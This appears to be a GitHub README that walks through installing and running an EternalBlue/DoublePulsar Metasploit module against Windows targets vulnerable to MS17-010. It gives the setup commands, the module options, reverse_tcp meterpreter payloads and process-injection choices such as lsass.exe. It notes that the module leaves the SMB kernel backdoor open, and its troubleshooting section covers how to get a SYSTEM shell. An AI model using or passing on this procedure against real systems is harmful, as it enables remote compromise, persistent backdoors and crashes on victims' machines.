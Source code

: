 # EternalBlue
ElevenPaths EternalBlue Metasploit module - works better than Rapid 7

EternalBlue module setup (credit to ElevenPaths for their fantastic module)

One thing I could never find was a full setup guide.  I had to piece this together from other sources and how I went about the setup
*One thing to note - this module leaves the backdoor open in the SMB kernel and does not perform cleanup*

# Installation Setup

	1.) git clone https://github.com/w0rtw0rt/EternalBlue to any directory
	2.) Place eternalblue-doublepulsar.rb file into the /usr/share/metasploit-framework/modules/exploits/windows/smb folder
	3.) open terminal
	4.) dpkg --add-architecture i386 && apt-get update && apt-get install wine32
	5.) add directory in your home directory for .wine (mkdir .wine)
	6.) cd .wine 
	7.) mkdir drive_c
	8.) open metasploit (msfconsole)
	9.) use exploit/windows/smb/eternalblue_doublepulsar (should tab autocomplete if you placed in proper directory)
	10.) set proper payload for arch (windows/x64/meterpreter/reverse_tcp vs windows/meterpreter/reverse_tcp)
	11.) show options
	12.) set DOUBLEPULSARPATH to directory your DEPS folder resides (default is root/Eternalblue-Doublepulsar-Metasploit/deps/)
	13.) set ETERNALBLUEPATH to directory your DEPS folder resides (default is root/Eternalblue-Doublepulsar-Metasploit/deps/)
	14.) set RHOST *target IP*
	15.) set TARGETARCHITECTURE *x86 or x64*
	16.) set TARGET *target OS - Windows 2008/7 down to 2003/XP*
	17.) set PROCESSINJECT *running process - use lsass.exe (x64) or svchost.exe (x86) or explorer.exe if user is logged in*

At this point, when you run this module for the very first time, wine will initialize and the exploit will fail stating that 
certain dependencies could not be run.  After the initialization, run the module again and all dependencies will be set up.  
The module should complete and if your target is vulnerable, it will open the back door and inject the auto-generated payload 
to the target.  This should bring back a meterpreter shell with system level access (NTAuthority/System).

# Troubleshooting
    Q. Why did my meterpreter shell die?
    A. Chances are you injected to a process that was unstable.  For example, lsass.exe is going to crash on x86.  A notification will usually appear on the user's desktop notifying them that Windows will restart in 1 minutes due to a fatal error.
    
    Q. The module fails when I try to run it.  It gives me output saying it could not find xxxx directory
    A. Make sure you have pointed your paths to wherever you have your /deps folder residing. It will also need sudo priviliges.
    
    Q. The exploit completed but no session was created!
    A. Multiple things could come into play here:
       a.) Some security feature may be preventing outbound access from the device (reverse tcp connection)
       b.) Your target arch doesn't match your payload
       
    Q. The exploit continues to ask me "are you sure the target is vulnerable?"
    A. Chances are the target isn't vulnerable or has been patched for the ms17-010 exploit. Ensure you've enumerated properly.
